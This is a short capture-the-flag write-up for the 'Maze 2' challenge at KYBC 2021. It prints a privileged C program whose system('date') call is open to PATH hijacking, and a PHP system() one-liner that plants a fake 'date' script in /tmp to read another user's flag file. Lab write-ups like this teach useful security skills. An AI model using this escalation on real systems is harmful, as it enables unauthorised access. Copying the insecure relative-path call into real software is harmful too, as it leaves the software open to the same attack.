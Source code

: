 Title: KYBC 2021 - Maze 2 Writeup
Date: 2021-03-22
Category: CTF
Tags: ctf, lfi, rce, kybc
Slug: kybc-yogosha-2021-maze-2-writeup
Author: Giulia Vergottini
Summary: Writeup for Maze 2 challenge at KYBC CTF


_In order to start this challenge it was necessary to complete [Maze 1]({filename}/CTF/kybc-yogosha-maze1.md) first_

After catching the first flag, let's check what's in `home/ctf_user2`. There is a flag file, but this time concatenating it doesn't work since the current user (`ctf_user1`) doesn't have read permissions to it. The only other interesting thing is a file called `sysadmin.c`. Permissions are in my favor this time, so let's have a look at the content:

```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv)
{

    printf("Hello sysadmin :) \n");
    printf("Today date : \n");
    fflush(stdout);
    setreuid(geteuid(), getuid());
    system("date");
    return 0;
}
```

That `system("date")` call looks promising, so let's try to replace it with some useful bash statement instead:

```
<?php system('echo "cat /home/ctf_user2/.52942ab6e8a6dd0bd75a9029c2b5c574_flag2.txt" > /tmp/date && chmod 777 /tmp/date && export PATH=/tmp:$PATH && /home/ctf_user2/sysadmin'); ?>
```

Check the proc file and catch the flag - success!
